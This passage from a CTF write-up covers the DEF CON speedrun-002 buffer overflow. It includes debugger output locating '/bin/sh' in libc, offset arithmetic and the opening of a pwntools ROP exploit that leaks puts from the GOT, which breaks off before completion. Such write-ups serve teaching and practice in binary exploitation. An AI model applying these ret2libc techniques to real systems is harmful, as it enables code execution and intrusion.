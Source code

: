 Each of these has a certian constraint that needs to be met in order for it to worked. Through just trial and error, I settled on `0x4f322`. Also we will need the offset from libc for the string `/bin/sh`, and this is how I got it:

```
gef➤  vmmap
Start              End                Offset             Perm Path
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x /Hackery/defcon/speedrun/s2/speedrun-002
0x0000000000600000 0x0000000000601000 0x0000000000000000 r-- /Hackery/defcon/speedrun/s2/speedrun-002
0x0000000000601000 0x0000000000602000 0x0000000000001000 rw- /Hackery/defcon/speedrun/s2/speedrun-002
0x00007ffff79e4000 0x00007ffff7bcb000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/libc-2.27.so
0x00007ffff7bcb000 0x00007ffff7dcb000 0x00000000001e7000 --- /lib/x86_64-linux-gnu/libc-2.27.so
0x00007ffff7dcb000 0x00007ffff7dcf000 0x00000000001e7000 r-- /lib/x86_64-linux-gnu/libc-2.27.so
0x00007ffff7dcf000 0x00007ffff7dd1000 0x00000000001eb000 rw- /lib/x86_64-linux-gnu/libc-2.27.so
0x00007ffff7dd1000 0x00007ffff7dd5000 0x0000000000000000 rw- 
0x00007ffff7dd5000 0x00007ffff7dfc000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/ld-2.27.so
0x00007ffff7fd9000 0x00007ffff7fdb000 0x0000000000000000 rw- 
0x00007ffff7ff7000 0x00007ffff7ffa000 0x0000000000000000 r-- [vvar]
0x00007ffff7ffa000 0x00007ffff7ffc000 0x0000000000000000 r-x [vdso]
0x00007ffff7ffc000 0x00007ffff7ffd000 0x0000000000027000 r-- /lib/x86_64-linux-gnu/ld-2.27.so
0x00007ffff7ffd000 0x00007ffff7ffe000 0x0000000000028000 rw- /lib/x86_64-linux-gnu/ld-2.27.so
0x00007ffff7ffe000 0x00007ffff7fff000 0x0000000000000000 rw- 
0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rw- [stack]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 r-x [vsyscall]
gef➤  search-pattern /bin/sh
[+] Searching '/bin/sh' in memory
[+] In '/lib/x86_64-linux-gnu/libc-2.27.so'(0x7ffff79e4000-0x7ffff7bcb000), permission=r-x
  0x7ffff7b97e9a - 0x7ffff7b97ea1  →   "/bin/sh" 
```

and a bit of python math:
```
>>> hex(0x7ffff7b97e9a - 0x00007ffff79e4000)
'0x1b3e9a'
```

Also one more thing, the offset between the start of our input and the return address is `0x408`. This is because of the `0x400` byte of the char array along with the `0x8` bytes of the saved based pointer.

Putting it all together we get the following exploit:

```
from pwn import *

# Establish target process
target = process('./speedrun-002')
#gdb.attach(target, gdbscript='b *0x4007ba')
#gdb.attach(target, gdbscript='b *0x40072e')

# Establish the binary
binary = ELF('speedrun-002')
libc = ELF('libc-2.27.so')


# Establish rop gadget, and puts values
popRdi = 0x4008a3
putsPlt = binary.symbols['puts']
putsGot = binary.got['puts']

# Where we will return to after puts infoleak
ret = 0x40074c

# Handle I/O stuff to get to overflow
```